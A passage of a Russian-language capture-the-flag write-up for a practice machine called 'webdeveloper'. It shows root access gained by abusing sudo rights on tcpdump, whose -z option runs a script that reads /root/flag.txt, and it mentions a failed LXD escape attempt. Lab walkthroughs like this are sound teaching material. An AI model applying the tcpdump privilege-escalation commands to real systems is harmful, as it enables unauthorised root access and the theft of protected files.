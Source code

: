 >Только команду tcpdump, используем это. Создадим пустой файл и впишем в него команду:

```html
webdeveloper@webdeveloper:~$ touch /tmp/shell
webdeveloper@webdeveloper:~$ echo "cat /root/flag.txt" > /tmp/shell
```

>Сделаем файл исполняемым и запустим:

```html
webdeveloper@webdeveloper:~$ chmod +x /tmp/shell
webdeveloper@webdeveloper:~$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/shell -Z root
[sudo] password for webdeveloper: 
dropped privs to root
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
Maximum file limit reached: 1
1 packet captured
13 packets received by filter
0 packets dropped by kernel
webdeveloper@webdeveloper:~$ Congratulations here is youre flag:
cba045a5a4f26f1cd8d7be9a5c2b1b**********
```

>Если интересно, вот здесь можно почитать подробнее -- https://gtfobins.github.io/gtfobins/tcpdump/

>Так же я пытался получить root через lxd, но неправильно эксплуатировал и получил кучу ошибок, в любом случае оставлю ссылку.

```html
webdeveloper@webdeveloper://$ id
uid=1000(webdeveloper) gid=1000(webdeveloper) groups=1000(webdeveloper),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd)

webdeveloper@webdeveloper://$ cat etc/passwd
<mark>lxd:x:105:65534::/var/lib/lxd/:/bin/false
```

>Повышение привилегий через LXD -- https://reboare.github.io/lxd/lxd-escape.html
